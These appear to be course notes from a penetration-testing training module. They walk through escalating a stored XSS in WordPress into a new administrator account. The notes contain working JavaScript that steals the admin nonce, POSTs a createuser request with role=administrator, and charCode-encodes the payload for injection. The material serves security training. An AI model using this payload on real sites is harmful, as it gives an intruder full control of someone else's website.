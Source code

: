 If link is embedded in the HTML of an email, user would only see link description. 

This attack would succeed if user is logged in with valid session on the same website.

Gathering WordPress Nonce

```
var ajaxRequest = new XMLHttpRequest();
var requestURL = "/wp-admin/user-new.php";
var nonceRegex = /ser" value="([^"]*?)"/g;
ajaxRequest.open("GET", requestURL, false);
ajaxRequest.send();
var nonceMatch = nonceRegex.exec(ajaxRequest.responseText);
var nonce = nonceMatch[1];
```

This function performs a new HTTP request towards the **/wp-admin/user-new.php**URL and saves the nonce value found in the HTTP response based on the regular expression. The regex pattern matches any alphanumeric value contained between the string _/ser" value="_ and double quotes.

Creating a New WordPress Administrator Account

```JavaScript
var params = "action=createuser&_wpnonce_create-user="+nonce+"&user_login=attacker&email=attacker@offsec.com&pass1=attackerpass&pass2=attackerpass&role=administrator";
ajaxRequest = new XMLHttpRequest();
ajaxRequest.open("POST", requestURL, true);
ajaxRequest.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
ajaxRequest.send(params);
```

If this succeeds we'll gain full admin privileges on the site. 

To ensure that our JavaScript payload will be handled correctly by Burp and the target application, we need to first minify it, then encode it.

To minify our attack code into a one-liner, we can navigate to JS Compress.[8](https://portal.offsec.com/courses/pen-200-44065/learning/introduction-to-web-application-attacks-44516/cross-site-scripting-44558/privilege-escalation-via-xss-44525#fn-local_id_89-8)

![Figure 30: Minifying the XSS attack code](https://static.offsec.com/offsec-courses/PEN-200/imgs/webintro/2a2f4dbcc913552bb7d442fa94655ba3-xss6.png)

Copy and save output locally. 

Encode minified JS code with

```
function encode_to_javascript(string) {
            var input = string
            var output = '';
            for(pos = 0; pos < input.length; pos++) {
                output += input.charCodeAt(pos);
                if(pos != (input.length - 1)) {
                    output += ",";
                }
            }
            return output;
        }
        
let encoded = encode_to_javascript('insert_minified_javascript')
console.log(encoded)
```
